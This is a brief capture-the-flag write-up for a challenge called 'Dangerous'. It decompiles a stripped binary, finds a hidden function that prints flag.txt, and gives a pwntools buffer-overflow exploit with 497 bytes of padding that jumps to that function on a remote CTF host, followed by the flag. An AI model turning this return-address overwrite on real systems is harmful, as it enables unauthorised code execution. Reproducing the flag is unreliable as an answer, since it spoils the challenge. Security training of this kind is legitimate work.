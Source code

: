 # Dangerous

Disassembling it with `radare2` and `gdb` doesn't really seem to spit out anything interesting (as the binary is stripped), but we can use string to see that `flag.txt` is within the binary. This hints that there is actually something there.

So, to check it out, I disassembled the binary in GHidra. Sure enough, `FUN_0040130e` had some basic C code to read the file and output the results.

```c
void FUN_0040130e(void)

{
  char local_218 [524];
  int local_c;
  
  local_c = open("./flag.txt",0);
  read(local_c,local_218,0x200);
  close(local_c);
  puts(local_218);
  return;
}
```

All we had to do was overflow the buffer and execute the function.

Using `ragg2` I found that the padding was 497 bytes.

```python
from pwn import *

p = remote("jh2i.com", 50011)

p.clean(0.2)

payload = b"A" * 497
payload += p64(0x40130e)

p.sendline(payload)

print(p.clean(1))
```

**flag{legend_of_zelda_overflow_of_time}**